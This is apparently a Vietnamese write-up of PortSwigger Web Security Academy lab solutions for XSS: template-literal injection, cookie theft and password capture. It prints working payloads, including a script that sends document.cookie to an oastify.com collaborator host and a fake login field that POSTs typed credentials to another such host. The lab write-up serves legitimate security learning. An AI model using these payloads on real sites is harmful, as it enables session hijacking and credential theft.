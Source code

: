 ![image](https://hackmd.io/_uploads/BkGVGCHBp.png)

## Lab 19: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
![image](https://hackmd.io/_uploads/ry3Qj0BrT.png)
- Lab trên chứa lỗ hổng reflected XSS ở chức năng search, nó hiện dữ liệu của người dùng đưa cho ở trong một template string với dấu `<> '' ""` đều bị HTML encode, và cả dấu ` `` ` bị escape. Để solve lab thì em cần thực hiện khai thác lỗ hổng XSS để gọi chức năng alert ở trong template string này
- Tìm thử 1 thứ gì đó:

![image](https://hackmd.io/_uploads/ryEbwmvHT.png)
- Biến message này được khởi tạo với việc giá trị của nó là một chuỗi mẫu(template string), chuỗi mẫu này chứa văn bản “5 search results for ‘a’”, trong đó ‘a’ là một phần của chuỗi, và 5 đứng trước nó. Còn câu lệnh sau đó là đi tìm xem id của các thẻ xem cái nào giống với searchMessage, sau đó gán giá trị của message vào innerText của phần tử tìm thấy, từ đó nội dung hiện thị của phần tử đó trên trang web thành nội dung của biến message.
- Ta sẽ sử dụng template syntax của js để thực hiện XSS, đó là `${alert(1)}` -\> như thế template sẽ thực hiện câu lệnh khi load đến:
![image](https://hackmd.io/_uploads/rk5tw7vHT.png)
![image](https://hackmd.io/_uploads/SyhFvXwSa.png)

## Lab 20: [Exploiting cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/exploiting) to steal cookies
![image](https://hackmd.io/_uploads/HkPavXwBp.png)
- Bài Lab này chứa lỗ hổng stored XSS ở chức năng comment. Nạn nhân sẽ xem tất cả comment được đăng lên, để solve lab thì mình cần khai thác lỗ hổng nhắm chiếm được session cookie của nạn nhân, và dùng nó để đóng giả làm nạn nhân
- Xem sơ qua chức năng comment của bài viết:
- Như đã thấy nội dung sẽ được xuất hiện ở thẻ a nên mình thử payload ở comment `<script>alert(1)</script>`

![image](https://hackmd.io/_uploads/HJaXYQPH6.png)

- Như vậy là đoạn mã được thực hiện. Đề bài yêu cầu mình lấy cookie của nạn nhân nên mình sẽ dùng callaborator để nhận các rp mà mình điều hướng đến payload:`<script>fetch("https://l2osaou8zdg9i540ocpcak46jxpode13.oastify.com?"+document.cookie)</script>`
- Nó gửi về cho mình 1 session là `nLQXP656txpTPBmZNTAwsZ7hBJi6j8hL` thay thế session của mình rồi load lại trang: ![image](https://hackmd.io/_uploads/ryHmyNwBT.png)

## Lab 21: [Exploiting cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/exploiting) to capture passwords
![image](https://hackmd.io/_uploads/S14rlEvH6.png)
- Bài lab trên chứa lỗ hổng stored XSS ở chức năng bình luận, nạn nhân sẽ xem tất cả comment được đăng, để solve lab này thì mình cần khai thác lỗ hổng để lấy username và password của nạn nhân và lấy nó để đăng nhập vào tài khoản của nạn nhân:
- Mục tiêu XSS vẫn sẽ là ở chỗ nội dung comment, giờ mình sẽ đi tìm cách nào để lấy được tài khoản của nạn nhân thông qua XSS. Sau khi đọc hướng dẫn của đề bài thì mình có payload như sau:
```

<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https>//mf5tnp79cetav6h11d2dnlh7wy2pqqef.oastify.com',{ method:'POST', mode: 'no-cors', body:username.value+'|'+this.value });">

```
